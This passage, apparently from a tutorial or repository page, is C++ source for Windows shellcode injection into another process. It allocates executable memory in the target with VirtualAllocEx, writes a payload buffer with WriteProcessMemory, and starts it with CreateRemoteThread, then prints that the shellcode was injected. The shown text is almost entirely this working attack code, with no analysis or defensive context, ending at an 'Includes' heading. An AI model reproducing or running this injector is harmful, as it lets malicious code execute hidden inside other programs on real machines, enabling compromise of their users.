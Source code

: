```C++
    if (hProcess == NULL) {
        std::cerr << "Failed to open process. Error: " << GetLastError() << std::endl;
        return 1;
    }

    LPVOID remoteBuffer = VirtualAllocEx(hProcess, NULL, sizeof(payload), (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);
    if (remoteBuffer == NULL) {
        std::cerr << "Failed to allocate memory in the target process. Error: " << GetLastError() << std::endl;
        CloseHandle(hProcess);
        return 1;
    }

    if (WriteProcessMemory(hProcess, remoteBuffer, payload, sizeof(payload), NULL) == 0) {
        std::cerr << "Failed to write memory in the target process. Error: " << GetLastError() << std::endl;
        VirtualFreeEx(hProcess, remoteBuffer, 0, MEM_RELEASE);
        CloseHandle(hProcess);
        return 1;
    }

    HANDLE remoteThread = CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)remoteBuffer, NULL, 0, NULL);
    if (remoteThread == NULL) {
        std::cerr << "Failed to create remote thread. Error: " << GetLastError() << std::endl;
        VirtualFreeEx(hProcess, remoteBuffer, 0, MEM_RELEASE);
        CloseHandle(hProcess);
        return 1;
    }


    std::cout << "Shellcode injected into target process." << std::endl;

    WaitForSingleObject(remoteThread, INFINITE);
    CloseHandle(remoteThread);
    VirtualFreeEx(hProcess, remoteBuffer, 0, MEM_RELEASE);
    CloseHandle(hProcess);

    return 0;
}

```

&nbsp;

&nbsp;

## **Includes**

Including headers:
